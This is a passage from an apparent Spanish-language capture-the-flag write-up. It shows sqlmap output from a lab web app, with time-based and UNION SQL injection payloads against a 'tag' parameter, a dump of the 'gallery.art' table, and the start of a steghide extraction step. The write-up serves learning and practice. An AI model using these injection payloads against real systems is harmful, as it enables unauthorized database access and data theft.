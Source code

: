 ```
    Payload: tag=sqli' AND (SELECT 9943 FROM (SELECT(SLEEP(5)))KblS) AND 'bZbx'='bZbx

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: tag=sqli' UNION ALL SELECT NULL,CONCAT(0x71716b7071,0x51574e7344474e6e5a6d6f4641654d4b7a7744467477744d6b555775435062475542566b7a534b50,0x71766b7171),NULL-- -
---
[03:34:47] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[03:34:47] [INFO] fetching database names
available databases [2]:
[*] gallery
[*] information_schema

[03:34:47] [INFO] fetching columns for table 'art' in database 'gallery'
[03:34:47] [INFO] fetching entries for table 'art' in database 'gallery'
Database: gallery
Table: art
[5 entries]
+----+-----------+---------------+
| id | tag       | image         |
+----+-----------+---------------+
| 1  | beautiful | abc321.jpg    |
| 2  | beautiful | jlk19990.jpg  |
| 3  | beautiful | ertye.jpg     |
| 4  | beautiful | zzxxccvv3.jpg |
| 5  | beauty    | dsa32.jpg     |
+----+-----------+---------------+

[03:34:47] [INFO] table 'gallery.art' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.5.42/dump/gallery/art.csv'
[03:34:47] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.5.42'

[*] ending @ 03:34:47 /2025-06-19/
```

Veremos que hay una imagen que nos llama la atencion y es la llamada `dsa32.jpg` ya que es la unica que en el `tag` tiene otro nombre, vamos a ver si podemos sacarla algo de informacion desde la propia imagen.

```
URL = http://<IP>/index.php?tag=beauty
```

## Escalate user lion

### steghide

Nos aparece dicha imagen, por lo que vamos a descargarnosla, una vez echo eso, vamos a utilizar la herramienta `steghide` para poder extraer algun archivo si contuviera alguno de esta forma.
